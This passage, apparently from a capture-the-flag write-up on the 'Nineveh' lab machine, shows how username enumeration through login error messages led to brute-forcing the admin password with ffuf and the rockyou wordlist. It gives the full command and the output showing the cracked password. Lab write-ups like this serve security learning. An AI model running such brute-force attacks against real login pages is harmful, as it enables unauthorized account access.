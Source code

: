 We see that there is a `/department` folder! Lets navigate to it.

![](/assets/images/nineveh2.png)

We are presented with a login page. If we check the `HTML` source, we see a comment left by `amrois`.

![](/assets/images/nineveh3.png)

We know that there is a user called `admin`. If we attempt to login with username as `admin` we get `Invalid Password!`. However if we use any other username, it will return `Invalid username`. This shows that the username must be `admin`. Since we didn't know the password, we could attempt to brute-force with `rockyou.txt`.

```bash
$ ffuf  -w /usr/share/wordlists/rockyou.txt -u http://nineveh.htb/department/login.php -X POST -d "username=admin&password=FUZZ" -fr "Invalid Password" -H "Content-Type: application/x-www-form-urlencoded" -t 100        

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0
________________________________________________

 :: Method           : POST
 :: URL              : http://nineveh.htb/department/login.php
 :: Wordlist         : FUZZ: /usr/share/wordlists/rockyou.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=admin&password=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: 200,204,301,302,307,401,403
 :: Filter           : Regexp: Invalid Password
________________________________________________

1q2w3e4r5t              [Status: 302, Size: 2306, Words: 506, Lines: 66]
```